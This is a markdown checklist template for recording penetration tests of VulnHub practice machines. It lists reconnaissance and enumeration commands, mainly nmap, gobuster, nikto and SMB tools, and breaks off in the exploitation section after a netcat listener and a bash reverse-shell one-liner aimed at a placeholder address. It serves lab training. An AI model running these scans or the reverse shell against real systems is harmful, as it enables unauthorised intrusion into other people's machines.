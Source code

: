 # VulnHub Pentest Notes - [Machine Name]
- **Target IP:** `X.X.X.X`
- **OS/Version:** [Insert details]
- **Date:** YYYY-MM-DD
- **Assessor:** [Your Name]

---

## Resources & References
- **VulnHub Link:** [URL]()
- **Walkthrough/YouTube:** [URL]()
- **Additional References:** [Notes, blogs, etc.]

---

# 1. Reconnaissance & Enumeration

### 1.1 Network Discovery
- [ ] `netdiscover -r <target-range>`
- [ ] `arp-scan -l`
- [ ] Other tools: `ping`, `traceroute`

### 1.2 Port Scanning
- [ ] `nmap -sC -sV -p- -oN nmap_full.txt <IP>`
- [ ] `nmap -sS -p- -T4 -oN nmap_syn.txt <IP>`
- [ ] Additional: `masscan` for high-speed scanning

### 1.3 Service & Web Enumeration
- [ ] `nmap -sV --script=http-enum -p80,443 -oN nmap_http.txt <IP>`
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`
- [ ] `nikto -h http://<IP>/`
- [ ] Check SSL/TLS info: `sslscan <IP>`

### 1.4 SMB, FTP, and Other Protocols
- [ ] `enum4linux -a <IP>`
- [ ] `smbclient -L //<IP> -N`
- [ ] `ftp <IP>`

---

# 2. Initial Foothold

### 2.1 Vulnerability Identification
- [ ] Document identified vulnerabilities and potential exploits.
- [ ] Verify with manual inspection or exploit databases.

### 2.2 Exploitation Steps
- [ ] Choose exploitation method (manual/Metasploit).
- [ ] If using a reverse shell, prepare listener:
  
  ```bash
  nc -lvnp <PORT>
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
